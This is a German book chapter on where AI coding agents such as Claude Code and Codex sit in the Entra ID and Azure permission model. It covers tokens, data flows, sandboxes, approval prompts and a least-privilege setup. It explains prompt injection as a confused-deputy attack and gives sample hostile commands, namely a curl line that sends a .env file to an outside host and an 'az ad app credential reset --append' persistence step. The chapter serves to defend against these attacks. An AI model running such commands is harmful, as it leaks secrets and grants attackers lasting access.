

# 9. KI-Agenten im Rechtemodell: Claude Code und Codex

Ein KI-Agent ist ein Programm wie Claude Code oder Codex, das mit einem Modell plant und selbst Dateien ändert und Befehle ausführt. Für das Rechtemodell zählt dabei eine einzige Feststellung: Das Modell entscheidet, welcher Befehl als Nächstes läuft, aber die Rechte kommen woanders her. Wer das sauber trennt, kann die Risiken eines KI-Agenten mit denselben Fragen prüfen wie jeden anderen Zugriff: Wer handelt, mit welchem Token, an welchem Dienst, mit welchem Recht (siehe Kapitel 1, Die Landkarte)?

## Der KI-Agent ist keine eigene Identität

In Entra ID gibt es für einen lokal gestarteten KI-Agenten kein Objekt. Er ist weder Member noch Service Principal noch Managed Identity. Er ist ein gewöhnlicher Prozess auf dem Laptop, gestartet vom angemeldeten Betriebssystem-Konto, und erbt dessen Rechte wie jedes andere lokale Skript (siehe Kapitel 6, Geräte und Zugriffsregeln).

Das hat eine direkte Folge für Tokens. Führt der KI-Agent `az ad group list` aus, liest die Azure CLI ihren Token-Cache und verwendet die Sitzung, die der Mensch vorher mit `az login` geöffnet hat. Ein Access Token aus dieser Sitzung sieht dann im Ausschnitt so aus:

```json
{
  "aud": "https://graph.microsoft.com",
  "tid": "<tenant-id>",
  "oid": "<object-id-des-nutzers>",
  "upn": "testnutzer@contoso.onmicrosoft.com",
  "appid": "<client-id-der-azure-cli>",
  "scp": "<delegierte-berechtigungen>"
}
```

Kein Claim nennt den KI-Agenten. Das Token sagt nur: Dieser Nutzer handelt über die Azure CLI. Der Zieldienst kann deshalb nicht unterscheiden, ob ein Mensch den Befehl getippt oder ein Modell ihn vorgeschlagen hat. Dasselbe gilt für die Protokolle. Im Sign-in-Log steht der Nutzer mit der Azure CLI als App, im Audit-Log steht derselbe Nutzer als Auslöser einer Änderung. Löscht ein KI-Agent eine Gruppe, liest sich der Eintrag so, als hätte der Mensch sie gelöscht. Für die Nachvollziehbarkeit heißt das: Die Logs belegen, welches Konto gehandelt hat, aber nicht, ob ein Modell beteiligt war. Wer das später wissen will, braucht ein eigenes Konto für die Agentenarbeit, denn dann unterscheidet schon der Name im Log die beiden Fälle.

Auch für den Rechteumfang gibt es keinen Rabatt. Hat das Konto die Entra-Rolle Global Administrator, stehen dem KI-Agenten über die offene Sitzung dieselben Aktionen offen wie dem Menschen in dieser Sitzung. Bei einer Delegierten Berechtigung greift zwar die Schnittmenge aus App- und Nutzerrecht, aber der KI-Agent ist darin kein eigener Faktor. Er bekommt die Schnittmenge, die auch der Mensch bekäme (siehe Kapitel 3, Die drei Rechtesysteme).

## Drei getrennte Ebenen

Rund um einen KI-Agenten sind drei Anmeldungen im Spiel, die sich leicht vermischen. Im Regelfall bleiben sie getrennt, und keine ersetzt für sich eine andere. Eine Ausnahme ist Foundry, Microsofts Plattform, über die sich Modelle in Azure nutzen lassen: Dort berühren sich die Ebene des Anbieters und die von Azure, weil der Modellweg über Azure laufen kann.

| Ebene | Wo sie gilt | Was sie bestimmt | Was sie nicht bestimmt |
|---|---|---|---|
| Konto beim KI-Anbieter | Anthropic oder OpenAI | Modellzugang, Tarif, Datenbedingungen | Rechte auf Dateien oder im Tenant |
| Betriebssystem-Konto | Laptop oder VM | Dateien, Schlüsselablagen, Token-Caches, Prozesse | Rechte in der Cloud, solange kein Token vorliegt |
| Entra-Tokens und `az`-Sitzung | Tenant und Azure | Zugriff auf Graph API, Azure und Modelle in Azure | Was lokal gelesen oder ausgeführt werden kann |

Die Ebenen sind unabhängig. Ein Logout beim KI-Anbieter beendet die `az`-Sitzung nicht. Ein `az logout` nimmt dem KI-Agenten den Weg in den Tenant, aber nicht den Zugriff auf lokale Dateien wie eine `.env`. Eine Firmenadresse beim Anbieter vergibt für sich keine Rechte im Tenant.

Wirksam wird die Verbindung erst auf dem Rechner. Der Prozess läuft unter dem Betriebssystem-Konto und kommt dadurch an das, was dieses Konto erreicht. Unter Linux und Windows gehören dazu auch die Dateien mit den Zugangsdaten des KI-Agenten. Claude Code legt sie unter Linux in einer Datei mit den Rechten `0600` ab und unter Windows in einer Datei mit den Rechten des Benutzerprofils. Solche Dateirechte schützen gegen andere Konten, nicht gegen Prozesse desselben Kontos. Unter macOS liegen die Zugangsdaten in der Keychain.


*Ein Agentenprozess auf dem Laptop mit seinen drei getrennten Anmeldungen und den Diensten, die jede davon erreicht. Der KI-Agent hat keine eigene Identität im Tenant: Die Verbindung entsteht nur über den Prozess des Betriebssystem-Kontos, und im Tenant erscheint nur der Mensch.*

## Datenfluss: Was geht wohin?

Ein KI-Agent arbeitet nur, wenn das Modell den Kontext sieht. Claude Code sendet deshalb Prompts und Modellausgaben per TLS an den Modellanbieter, und damit auch die Inhalte der Dateien, die es liest. Für die Ausgabe von Befehlen ist davon auszugehen, dass dasselbe gilt, denn auch sie wird Teil des Kontexts. Nach dieser Beschreibung ist nicht davon auszugehen, dass der KI-Agent die ganze Festplatte hochlädt. Aber was er liest, verlässt in diesem Moment den Rechner.

Daraus folgt eine praktische Regel: Befehle, die Geheimnisse ausgeben, gehören nicht in eine Agenten-Sitzung. `az account get-access-token` oder `cat .env` schreiben das Geheimnis in den Kontext und damit an den Anbieter. Es ist davon auszugehen, dass es auch im lokalen Transkript landet.

Insgesamt gibt es drei Orte, an denen Sitzungsdaten liegen können:

- **Lokal:** Claude Code speichert Session-Transkripte im Klartext unter `~/.claude/projects/`, standardmäßig 30 Tage lang. Die Dauer lässt sich über `cleanupPeriodDays` einstellen. Desktop und Cowork sind weitere Oberflächen des Anbieters. Für Transkripte aus Desktop oder Cowork gilt diese Regel standardmäßig nicht. Wer also Geheimnisse in die Sitzung holt, muss davon ausgehen, dass sie danach auch in diesen Dateien stehen. Bei Codex sind Ort und Dauer vor dem Einsatz in der Dokumentation nachzuschlagen.
- **Beim Anbieter:** Hier hängt die Aufbewahrung vom Tarif ab. Ein Consumer-Tarif ist ein Privattarif unter Verbraucherbedingungen, ein Business-Tarif ein Firmentarif unter gewerblichen Bedingungen einschließlich API-Zugang. Die Fristen je Tarif und Anbieter gehören zur Tarifentscheidung (siehe Kapitel 10, Bauen ohne Admin-Rechte).
- **Im Feedback:** Die Befehle `/feedback`, `/bug` und `/share` schicken bei Claude Code das Transkript samt Code an den Anbieter, wo es 5 Jahre aufbewahrt wird. Über `DISABLE_FEEDBACK_COMMAND=1` lassen sie sich abschalten.

Was diese Bedingungen für Firmendaten bedeuten, ist keine technische Frage mehr (siehe Kapitel 10, Bauen ohne Admin-Rechte).

### Lokal, Cloud-Sitzung, Foundry

Die Wahl der Betriebsart verschiebt zwei Dinge unabhängig voneinander: wo der KI-Agent seine Befehle ausführt und wo das Modell die Daten sieht. Eine Cloud-Sitzung ist eine Agenten-Sitzung, deren Befehle nicht auf dem eigenen Rechner laufen, sondern in einer Umgebung des Anbieters. Eine Sandbox ist eine vom Betriebssystem oder einer Laufzeitumgebung durchgesetzte Grenze dafür, welche Dateien und Netzziele ein Prozess erreicht.

| Variante | Wo Befehle laufen | Wo das Modell läuft | Was der KI-Agent erreicht |
|---|---|---|---|
| Lokal mit Anbieter-Modell (Claude Code) | Eigener Rechner | Beim Anbieter, sofern nicht anders konfiguriert | Alles, was das Betriebssystem-Konto erreicht, soweit keine Sandbox greift |
| Cloud-Sitzung Claude Code | VM beim Anbieter | Beim Anbieter, sofern nicht anders konfiguriert | In der VM; dazu GitHub über einen Proxy, der die außerhalb der VM liegenden Zugangsdaten anhängt |
| Cloud-Variante Codex | Isolierter Container bei OpenAI | Beim Anbieter, sofern nicht anders konfiguriert | Im Container, kein Zugriff auf den eigenen Rechner; Wege nach außen vor dem Einsatz nachzuschlagen |
| Lokal mit Modell über Microsoft Foundry (Claude Code) | Eigener Rechner | „Hosted on Azure“ oder „Hosted on Anthropic“ | Wie lokal, denn nur der Modellweg ändert sich |

Für den lokalen Betrieb von Codex sind Datenweg und Rechte des Prozesses vor dem Einsatz in der Dokumentation nachzuschlagen.

Die Cloud-Sitzung trennt den KI-Agenten vom eigenen Laptop und damit von lokalen Token-Caches. Im Repository kann der KI-Agent aber über die angehängten Zugangsdaten handeln. Branch-Schutz begrenzt das bei Claude Code auch in der Cloud-Sitzung (siehe Kapitel 7, Server und GitHub).

Bei Claude Code hängt der Datenweg über Foundry an der Bereitstellungsart. Bei „Hosted on Azure“ bleiben Prompts und Antworten in Azure, und nur Nutzungsmetadaten sowie von Sicherheitssystemen markierte Inhalte gehen an Anthropic. Bei „Hosted on Anthropic“ läuft die Anfrage über Anthropic. Wichtig ist, was Foundry nicht ändert: Der KI-Agent läuft weiter lokal und hat weiter die Rechte des Kontos. Foundry beantwortet die Frage nach dem Datenweg, nicht die Frage, was der KI-Agent darf.


*Drei Varianten nebeneinander zeigen für dieselbe Anfrage, wo Befehle laufen und welchen Weg Prompts und Dateiinhalte nehmen. Ausführungsort und Modellort sind zwei getrennte Entscheidungen: Foundry verschiebt nur den Datenweg, die Cloud-Sitzung verschiebt auch die Ausführung und löst den KI-Agenten damit vom lokalen Konto.*

## Vier Grenzen im Vergleich

Vier Mechanismen werden oft in einen Topf geworfen, obwohl sie von völlig verschiedenen Stellen durchgesetzt werden. Die Unterscheidung läuft über eine Frage: Wer erzwingt die Grenze, und hängt sie davon ab, dass das Modell sich richtig verhält?

| Grenze | Wer sie durchsetzt | Was sie stoppt | Was sie nicht stoppt |
|---|---|---|---|
| Rückfragen im Tool | Das Agenten-Programm, am Ende der Mensch | Unerwünschte Aktionen, die als solche erkennbar sind | Schaden in einem genehmigten Befehl |
| Sandbox oder VM | Betriebssystem oder Laufzeitumgebung | Zugriff auf Dateien und Netzziele außerhalb der Regeln | Alles innerhalb der erlaubten Bereiche |
| Rechte des Kontos | Der jeweilige Zieldienst | Alles, was das Konto nicht darf | Alles, was das Konto darf |
| Regeln in Entra ID | Entra ID bei Anmeldung und Token-Ausstellung | Anmeldungen von falschen Geräten, Orten oder Apps | Aktionen mit einem bereits gültigen Token des erlaubten Kontos |

Der Unterschied zwischen Sandbox und Rückfrage ist grundsätzlich: Die Sandbox gilt auch dann, wenn niemand mehr hinsieht und das Modell Unsinn vorhat. Rückfragen sind dagegen schwächer, als sie wirken. Ein genehmigtes `npm test` führt beliebigen Code aus den Skripten des Projekts aus, und ein genehmigtes `git commit` kann lokale Hooks starten. Die Rückfrage zeigt den Befehl, nicht alles, was er auslöst.

Die Regeln in Entra ID haben eine andere Schwäche. Conditional Access (siehe Kapitel 6, Geräte und Zugriffsregeln) sieht bei `az` Nutzer, Azure CLI, Gerät, Standort und Risiko, aber keinen KI-Agenten. Eine Regel „kein Zugriff durch KI-Agenten“ lässt sich auf dieser Ebene deshalb nicht formulieren. Möglich sind nur Regeln gegen die Werkzeuge oder Geräte, die der KI-Agent mitbenutzt.

### Claude Code und Codex nebeneinander

Codex hat lokal getrennte Sandbox-Modi, die das Betriebssystem durchsetzt. Bei Claude Code ist die Grenze des Arbeitsverzeichnisses dagegen nur eine Rückfrage. Ein Dev-Container ist eine Entwicklungsumgebung, die in einem Container läuft. Managed Settings sind bei Claude Code die zentralen Vorgaben einer Organisation, Managed Configuration ist das Gegenstück bei Codex. MCP, das Model Context Protocol, ist der Standard, über den ein KI-Agent externe Werkzeuge und Datenquellen anspricht.

| Aspekt | Claude Code | Codex |
|---|---|---|
| Rückfragen | Manual-Modus: Rückfragen vor Änderungen und Befehlen. Auto-Modus: Ein Klassifikator prüft Aktionen. | Eigene Approval Policy (`on-request`, `never`, `granular`), Rückfragen optional an einen Prüf-Agenten |
| Harte Grenze lokal | Sandbox mit Dateisystem- und Netzisolation, Dev-Container oder VM | Vom Betriebssystem durchgesetzte Sandbox: `read-only`, `workspace-write`, `danger-full-access` |
| Grenze ohne Sandbox | Ein genehmigter Bash-Befehl kann überall schreiben, wo das Nutzerkonto darf | `danger-full-access` hebt die Sandbox auf und wird nicht empfohlen |
| Netzwerk | Über die Netzisolation der Sandbox | In `workspace-write` standardmäßig aus |
| Cloud | VM beim Anbieter | Isolierter Container bei OpenAI |
| Vorgaben der Organisation | Managed Settings, Auto-Modus abschaltbar, erlaubte MCP-Server einschränkbar | Managed Configuration, etwa für Approval Policies und Netzregeln |

Bei Codex sind Sandbox und Approval Policy ausdrücklich zwei getrennte Einstellungen. Das bildet die Trennung gut ab: Die eine legt fest, was technisch möglich ist, die andere, wann gefragt wird. Eine Kombination aus `workspace-write` und `never` ist deshalb nicht dasselbe wie `danger-full-access`, denn ohne Rückfragen bleibt die Sandbox trotzdem bestehen.

Ein Detail ist vor dem Einsatz zu prüfen: Schreibschutz und Leseschutz sind verschiedene Dinge. Eine Sandbox, die Schreiben außerhalb des Projekts verhindert, muss nicht automatisch das Lesen von `~/.azure` oder einer `.env` im Elternordner verhindern. Eine kurze Probe zeigt, was gilt. Dazu bekommt der KI-Agent den Auftrag, eine Datei außerhalb des Projekts zu lesen und eine externe Adresse abzurufen, und das Ergebnis wird angesehen.

### Ein Befehl durch alle Grenzen

Am Beispiel wird deutlich, wie die Grenzen zusammenwirken. Ein KI-Agent versucht, sich über ein neues Client Secret dauerhaften Zugriff auf eine App zu verschaffen:

```bash
az ad app credential reset --id <client-id> --append
```

Der Befehl durchläuft vier Stationen. Zuerst die Rückfrage: Sie hält ihn nur auf, wenn der Mensch ihn versteht oder der Klassifikator ihn erkennt. Dann die Sandbox: Ohne Netz oder ohne Zugriff auf den Token-Cache endet er hier, und zwar unabhängig vom Urteil des Menschen. Dann die Token-Ausstellung: Conditional Access kann die Ausstellung eines neuen Tokens ablehnen, greift aber nicht zwangsläufig, wenn noch ein gültiges Token vorliegt. Zuletzt die Rechte: Die Graph API prüft, ob das Konto diese App ändern darf. Ein Testkonto ohne Rollen, das nicht Besitzer der App ist, erhält hier ein 403.

Nur die letzten drei Stationen wirken ohne Mitarbeit von Mensch und Modell. Und nur die letzte hängt daran, welche Rechte überhaupt vergeben wurden. Deshalb ist sie die Grenze, auf die sich jede Einrichtung verlassen muss.


*Der Befehl eines KI-Agenten durchläuft nacheinander Rückfrage, Sandbox, Token-Ausstellung in Entra ID und Rechteprüfung am Zieldienst. Die Grenzen sind verschieden hart: Rückfragen hängen am Urteil, Sandbox und Kontorechte sind technisch erzwungen, und Regeln in Entra ID wirken nur an der Token-Ausstellung, nicht bei jedem Befehl.*

## Prompt Injection als Rechtefrage

Prompt Injection ist eine Anweisung in verarbeiteten Daten, die ein Modell fälschlich wie einen Auftrag befolgt. Sie funktioniert, weil Aufgabe und Daten beim Modell im selben Kontext landen und keine harte Trennung dazwischen besteht. Bei einem reinen Chatbot führt das zu einer falschen Antwort. Bei einem KI-Agenten führt es zu einem Befehl, der mit den Rechten des Menschen läuft. Sicherheitstechnisch ist das ein Confused-Deputy-Problem: Ein berechtigter Akteur wird von einem unberechtigten dazu gebracht, seine Rechte für fremde Zwecke einzusetzen. Der Angreifer braucht weder Konto noch Token. Es genügt, dass der KI-Agent seinen Text liest.

Die Kanäle sind zahlreich: README, Kommentare, Abhängigkeiten und Issue-Texte im Projekt, Webseiten aus einer Recherche oder ein Word-Dokument aus einer Site mit Text, den ein Mensch beim Lesen übersieht. Hinzu kommt MCP. Jede Antwort eines MCP-Servers landet im Kontext des Modells.

MCP verdient eigene Aufmerksamkeit, weil es zusätzlich Rechte einbringt. Ein Server hat oft eigene Zugangsdaten, zum Beispiel für ein Ticketsystem. Dessen Rechte kommen dann zu denen des Kontos hinzu. Anthropic prüft MCP-Server nicht auf Sicherheit und verwaltet sie nicht. Organisationen können die erlaubten Server einschränken. Für das Rechtemodell ist jeder Server also ein zusätzlicher Akteur mit eigenen Zugangsdaten, dessen Rechte in die Bewertung gehören.

Security Trimming hilft hier nicht, denn es filtert nach der anfragenden Identität (siehe Kapitel 5, Daten und Freigaben). Das manipulierte Dokument liegt ja in einem Bereich, den der Nutzer sehen darf. Zugleich sieht der KI-Agent alle anderen Inhalte, die dem Nutzer offenstehen, und Oversharing vergrößert genau diesen Bereich.

Schaden entsteht besonders dann, wenn drei Dinge zusammenkommen: Zugriff auf schützenswerte Daten oder Rechte, das Lesen nicht vertrauenswürdiger Inhalte und ein Weg nach außen oder zu schreibenden Aktionen. Ein injizierter Befehl wie der folgende braucht alle drei:

```bash
curl -d @.env https://example.org/sammeln
```

Ohne Netz läuft er ins Leere. Ohne `.env` im Projekt oder ohne Lesezugriff darauf ist er harmlos. Genau hier setzen Sandbox und Least Privilege an, weil sie mindestens eine der drei Bedingungen entfernen.



*Eine Anweisung aus nicht vertrauenswürdigen Inhalten wird über den Kontext des Modells zu einem Befehl, der mit den Rechten des Kontos läuft und einen Weg nach außen nutzt. Least Privilege und Sandbox entfernen je eine der drei Bedingungen.*

Warum Rückfragen allein nicht reichen, hat drei Gründe. Erstens wird nach der fünfzigsten Rückfrage nicht mehr gelesen. Zweitens kann der schädliche Teil in einem harmlos wirkenden Befehl oder in einer vom KI-Agenten geänderten Skriptdatei stecken. Drittens kann sich auch ein Klassifikator irren. Auch die Hersteller warnen vor Prompt Injection: Anthropic schreibt, kein System sei vollständig immun und der Nutzer bleibe dafür verantwortlich, Code und Befehle zu prüfen. Für nicht vertrauenswürdige Inhalte empfiehlt Anthropic VMs. OpenAI warnt, dass Prompt Injection den KI-Agenten zu unsicheren Anweisungen bringen kann und Monitoring weder Sandbox noch die Prüfung der Ergebnisse ersetzt.

Die brauchbare Denkweise lautet deshalb: Bei jeder Rechtezuweisung annehmen, dass das Modell irgendwann das Falsche will, und fragen, wie groß der Schaden dann höchstens werden kann.

## Konkretes Setup

Ein vernünftiges Setup begrenzt diesen Höchstschaden auf allen Ebenen. Die folgenden Bausteine ergänzen sich, und keiner ersetzt einen anderen.

1. **Eigener Test-Tenant.** Der KI-Agent arbeitet in einem Tenant, in dem nur erfundene Daten liegen. Wenn Sandbox und Leseschutz greifen, ist der schlimmste Fall dann ein neu aufzusetzender Test-Tenant.
2. **Eigenes Testkonto ohne Admin-Rechte.** Das Konto ist ein normaler Member ohne Entra-Rolle. Es trägt einen erkennbaren Namen, damit Logs den Agentenbetrieb vom eigenen Arbeiten trennen. Rechte in Azure bekommt es nur auf eine Resource Group und nicht auf die Subscription.
3. **Sandbox an.** Lokal läuft der KI-Agent in der Sandbox, in einem Dev-Container oder in einer VM, mit Netzzugang nur zu den nötigen Zielen. Für nicht vertrauenswürdige Inhalte, etwa fremde Repositories, ist die VM die richtige Wahl.
4. **Least Privilege für App-Rechte.** Baut der KI-Agent ein Skript ohne Nutzer, bekommt es eine eigene App-Registrierung mit möglichst engen Rechten. Sites.Selected statt eines tenantweiten Dateirechts ist dafür das typische Mittel. Client Secrets gehören nicht in das Projektverzeichnis, denn was dort liegt, kann der KI-Agent lesen.
5. **Git als Rückweg.** Der KI-Agent arbeitet auf einem eigenen Branch, und Branch-Schutz verhindert direkte Änderungen am Haupt-Branch. Der Diff wird vor dem Merge gelesen. Git macht aber nur Änderungen am Repository rückgängig. Eine gelöschte Azure-Ressource, ein neues Client Secret oder ein abgeflossener Wert kommen damit nicht zurück.
6. **Keine Admin-Sitzung im Agenten-Terminal.** Admin-Arbeit läuft getrennt, am besten in einem eigenen Betriebssystem-Konto oder einer eigenen VM. Vor dem Start einer Agenten-Sitzung zeigt `az account show`, welche Identität gerade aktiv ist.

Für die Trennung der `az`-Sitzungen reicht im Agenten-Terminal ein eigenes Konfigurationsverzeichnis über `AZURE_CONFIG_DIR`, angemeldet als Testkonto (siehe Kapitel 6, Geräte und Zugriffsregeln). Das ist eine Ordnungshilfe und keine Sicherheitsgrenze. Ohne Sandbox könnte der Prozess auch das Standardverzeichnis `~/.azure` lesen. Eine dort offene Admin-Sitzung ist also weiterhin erreichbar, wenn sie nicht beendet oder technisch abgeschirmt ist.

Die Rechte des Testkontos vergibt ein anderes Konto, nie der KI-Agent selbst:

```bash
# Aus der getrennten Admin-Sitzung, nicht aus dem Agenten-Terminal
az role assignment create \
  --assignee <object-id-testkonto> \
  --role Contributor \
  --scope /subscriptions/<subscription-id>/resourceGroups/rg-agent-test
```

Contributor passt, wenn der KI-Agent in dieser Resource Group selbst Ressourcen ändern soll. Wenn Lesen reicht, genügt Reader.

Im Ergebnis ist die Lage begrenzt, wenn Sandbox und Leseschutz greifen. Eine erfolgreiche Prompt Injection erreicht in diesem Setup dann eine Test-Resource-Group, erfundene Daten und einen Feature-Branch. Das ist ärgerlich, aber überschaubar. Als Restrisiko bleiben die Standardrechte eines Members, lokale Daten und, bei Schreibrecht im Repository, Workflows mit den dort hinterlegten GitHub Secrets (siehe Kapitel 7, Server und GitHub).

## Technische Hürden im Firmen-Tenant

Im Firmen-Tenant lässt sich dieses Setup oft nicht einfach nachbauen, weil die dortigen Regeln genau gegen unkontrollierte Werkzeuge und Geräte gerichtet sind. Die Fehlerbilder sind typisch:

| Hürde | Woran man sie erkennt | Ursache |
|---|---|---|
| Conditional Access verlangt ein konformes Gerät | `az login` scheitert mit `AADSTS53000` | Das Gerät ist Entra ID nicht bekannt oder meldet über Intune keine Compliance |
| Conditional Access blockiert Werkzeug oder Ort | `az login` scheitert mit `AADSTS53003` | Eine Regel schließt die Azure CLI, den Standort oder die Plattform aus |
| Consent gesperrt | Meldung mit `AADSTS90094`, Admin Consent nötig | Nutzer dürfen selbst keinen Consent erteilen, etwa für einen MCP-Server oder ein eigenes Skript |
| Keine App-Registrierung möglich | Das Portal verweigert das Anlegen | Das Tenant-Recht zum Registrieren ist für normale Nutzer abgeschaltet |
| Gesperrte Tools | Installation scheitert oder KI-Agent startet nicht | Gerät ist verwaltet und lässt nur freigegebene Software zu; Vorgaben kommen zudem über Managed Settings oder Managed Configuration |
| Kein verwalteter Mac oder Linux-Rechner | Zugriff nur von Windows-Firmengeräten | Die Geräteverwaltung deckt die Plattform nicht ab, auf der die Werkzeuge bequem laufen |

Besonders eine Konfliktlage ist technisch unangenehm: Die für KI-Agenten empfohlene Isolation widerspricht oft den Geräteregeln. Eine VM oder ein Dev-Container ist ein guter Ort für den KI-Agenten, gilt aber in der Regel nicht als verwaltetes Gerät. Conditional Access verweigert dort dann den Zugriff, und auf dem konformen Host fehlt wiederum die Isolation. Der Ausweg ist selten ein technischer Trick, denn wer eine solche Regel umgeht, arbeitet gegen die Absicht der IT. Sinnvolle Lösungen sind eine von der IT bereitgestellte verwaltete Entwicklungsumgebung oder eine Trennung, bei der der KI-Agent ohne Tenant-Zugriff lokal baut und ein Mensch oder eine Pipeline mit eigener Deployment-Identität ausrollt.

Alle diese Hürden sind lösbar, aber nicht vom eigenen Laptop aus. Sie führen zu Fragen an die Organisation und zu Entscheidungen, die außerhalb der Technik liegen (siehe Kapitel 10, Bauen ohne Admin-Rechte).
